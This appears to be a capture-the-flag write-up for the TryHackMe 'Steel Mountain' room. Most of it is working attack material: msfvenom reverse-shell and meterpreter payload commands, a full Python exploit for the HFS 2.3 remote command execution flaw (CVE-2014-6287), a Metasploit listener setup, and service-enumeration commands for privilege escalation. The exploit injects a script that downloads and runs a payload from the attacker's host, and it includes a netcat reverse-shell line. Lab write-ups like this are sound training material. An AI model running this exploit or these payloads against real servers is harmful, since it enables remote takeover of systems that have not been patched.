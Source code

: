 # Steel Mountain

{% embed url="https://tryhackme.com/room/steelmountain" %}

{% embed url="https://05t3.github.io/posts/Steel-Mountain/" %}

{% embed url="https://medium.com/@weifeng.c01/tryhackme-ctf-steel-mountain-1ac394c030dd" %}

{% embed url="https://blog.razrsec.uk/steel-mountain-walkthrough/" %}

### Initial access

...

#### Retrieving shell (without metasploit)

... to test

{% code overflow="wrap" %}
```sh
$ msfvenom -p cmd/windows/powershell/powershell_reverse_tcp LHOST=<attacker_addr> LPORT=8888 -o <output>.cmd
```
{% endcode %}

_**meterpreter payload**_

{% code overflow="wrap" %}
```sh
$ msfvenom -p windows/x64/meterpreter_reverse_tcp -f exe LHOST=10.4.10.179 LPORT=8888 -o <output>.exe
```
{% endcode %}

{% code title="host web server to load payload file" overflow="wrap" %}
```sh
$ python3 -m http.server <port>
```
{% endcode %}

_**Modified PoC**_

{% embed url="https://www.exploit-db.com/exploits/39161" %}

{% code title="39161.py" overflow="wrap" %}
```python
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 04-01-2016
# Remote: Yes
# Exploit Author: Avinash Kumar Thapa aka "-Acid"
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
 
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!


import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "10.4.10.179" #local IP address
	local_port = "8888" # Local Port number
	rev_shell_payload = "xxxx"

	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%3A9998%2F"+rev_shell_payload+"%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5C"+rev_shell_payload+"%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2

	# vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	vbs3 = "C%3A%5CUsers%5CPublic%5C"+rev_shell_payload

	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
	
            
```
{% endcode %}

{% code overflow="wrap" %}
```sh
$ python2 39161.py <target> <port>
```
{% endcode %}

#### Catch meterpreter&#x20;

```sh
msf6> use multi/handler
msf6> set payload windows/x64/meterpreter_reverse_tcp
msf6> set lhost xxxx
msf6> set lport xxxx

msf6> run
```

### Privilege escalation

#### Enumeration

{% code overflow="wrap" %}
```powershell
PS> Get-Service *
PS> Get-CimInstance Win32_Service -Filter *
PS> sc qc <servicename>
```
{% endcode %}



